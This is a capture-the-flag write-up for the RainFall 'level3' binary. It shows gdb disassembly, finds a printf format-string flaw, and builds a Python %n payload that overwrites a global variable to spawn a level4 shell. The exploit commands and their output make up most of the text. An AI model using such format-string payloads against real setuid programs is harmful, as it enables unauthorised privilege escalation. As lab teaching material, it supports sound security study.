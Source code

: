 # Walkthrough

While examining the files in my home directory, I came across a binary file named "level3". Upon executing it, I observed that it reads data from the standard input and outputs it to the console.

```sh
level3@RainFall:~$ ./level3
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

Curious about its functionality, I attempted to analyze the binary and discovered that the main function calls a v() function.

```c
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```

This function uses the fgets() function to read data from the input, and then prints the contents of the buffer using printf().

```c
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

Following this, the program checks whether the value stored at memory address `0x804988c` is equal to 64. If the condition is true, the program prints a message to the console using the fwrite() function `("Wait what?!\n")` and starts a new shell process `(/bin/sh)` within the current process. However, if the condition is false, the program does not take any further action.

```c
(gdb) x/s 0x8048600
0x8048600:  "Wait what?!\n"
(gdb) x/s 0x804860d
0x804860d:  "/bin/sh"
```

To execute a new shell process in the level3 program, we need to modify the value of the memory address 0x804988c to 64.

```c
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
```

However, the program is not vulnerable to the gets function because it uses the safer fgets function with a specified size. Therefore, we need to find another vulnerability in the program. After conducting some research, I discovered a format string vulnerability in the printf() function. With this vulnerability, I can provide a format string that contains conversion specifications that allow me to reference memory locations that I am not authorized to access. By using certain conversion specifications like %x, %p, or %n, I can read or write data from arbitrary memory locations. You can find more information about these conversion specifications in the `manual of printf`. 

In the program, I attempted to use the x conversion specifier to print the values in hexadecimal format. The resulting output was as follows:
```c
level3@RainFall:~$ ./level3
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

In this example, the printf function printed a memory address followed by the value 41414141, which represents the ASCII characters "AAAA". This value was passed in the beginning of the string. Based on this observation, I decided to pass the memory address `0x804988c` instead of the `AAAA` string to see if the output would include the inputted address:

To accomplish this, I utilized Python to generate the required string:

```sh
level3@RainFall:~$ python2 -c 'print("\x08\x04\x98\x8c"[::-1] + "%x " * 4)' > /tmp/flag
level3@RainFall:~$ cat /tmp/flag
�%x %x %x %x
level3@RainFall:~$ cat /tmp/flag | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
level3@RainFall:~$
```

As we know, the `%n` conversion specifier can modify the value of the memory address passed to it. Therefore, I decided to replace the last %x conversion specifier with %n in the printf function call.

before using the `%n` conversion:
```sh
(gdb) ni
=> 0x80484df <v+59>:	cmp    eax,0x40
eax            0x0	0
```

after using the `%n` conversion:
```
level3@RainFall:~$ python2 -c 'print("\x08\x04\x98\x8c"[::-1] + "%x " * 3 + "%n")' > /tmp/flag
level3@RainFall:~$ cat /tmp/flag
�%x %x %x %n
level3@RainFall:~$ cat /tmp/flag | ./level3
�200 b7fd1ac0 b7ff37d0
                ------------------------------------
(gdb) ni
=> 0x80484df <v+59>:	cmp    eax,0x40    
eax            0x1a	26
```

Based on the example above, we can make the following assumption:
```
|�|200 |b7fd1ac0 |b7ff37d0 |
|4|  4 |     9   |    9    | // result = 26
```

After analyzing the situation, we have determined that we need an additional 38 bytes because 64 - 26 = 38. To add these bytes using the concept of width in printf, we can use the number 38 after the percentage sign, which tells printf to add 38 characters. However, the issue with using width is that it calculates the length of the value being printed, subtracts it from the width, and then pads the result with spaces. To compensate for this, we will add 8 to the 38 characters `(46)`to make the total length equal to 64.
```sh
level3@RainFall:~$ python2 -c 'print("\x08\x04\x98\x8c"[::-1] + "%x " * 2 + "%46x " + "%n")' > /tmp/flag
level3@RainFall:~$ cat /tmp/flag
�%x %x %46x %n
```

And by performing this operation, we can use the generated payload to attempt to exploit the level3 binary:

```
level3@RainFall:~$ cat /tmp/flag - | ./level3
�200 b7fd1ac0                                       b7ff37d0
Wait what?!
whoami
level4
cd ../level4
ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
```